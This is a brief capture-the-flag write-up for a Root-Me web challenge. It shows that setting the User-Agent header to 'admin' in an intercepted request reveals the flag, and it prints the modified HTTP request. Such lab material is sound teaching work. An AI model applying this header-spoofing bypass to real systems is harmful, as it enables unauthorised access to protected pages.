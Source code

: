 # Question
User-Agent

## Description
The admin is really dumb

## Solution

This one was really simple, we have to verify as admin user so just intercept the burp request and change user to admin which gives the flag
` GET /web-serveur/ch2/ HTTP/1.1
Host: challenge01.root-me.org
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: admin
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: _ga=GA1.1.1448696352.1759118406; _ga_SRYSKX09J7=GS2.1.s1759121098$o2$g1$t1759122883$j20$l0$h0
Connection: keep-alive
`
